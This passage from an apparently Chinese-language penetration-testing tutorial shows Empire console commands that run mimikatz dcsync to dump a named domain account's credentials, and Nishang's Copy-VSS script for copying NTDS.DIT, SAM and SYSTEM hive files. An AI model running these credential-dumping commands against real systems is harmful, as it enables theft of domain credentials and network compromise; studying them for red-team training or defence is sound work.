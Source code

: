 dump特定帐户信息：

(Empire: 8GLZTYXR) > usemodule credentials/mimikatz/dcsync  
(Empire: powershell/credentials/mimikatz/dcsync) > set user Al1ex  
(Empire: powershell/credentials/mimikatz/dcsync) > execute

[![image.png](assets/1698894155-0edcc4e7d30f8d2115a25aa023b2dfc8.png)](https://storage.tttang.com/media/attachment/2022/09/30/8a3f7b44-7d5a-4787-9805-5d191f9464bc.png)

##### [Nishang](#toc_nishang)

Nishang是一个PowerShell框架，它让redteam和渗透测试人员能够对系统进行攻击性操作，Nishang中的VSS脚本可以用于自动提取所需的文件：NTDS.DIT，SAM和SYSTEM，这些文件将被解压缩到当前工作目录或指定的任何其他文件夹中。

Import-Module .\\Copy-VSS.ps1  
Copy-VSS //复制到当前目录  
Copy-VSS -DestinationDir C:\\ShadowCopy //复制到指定目录
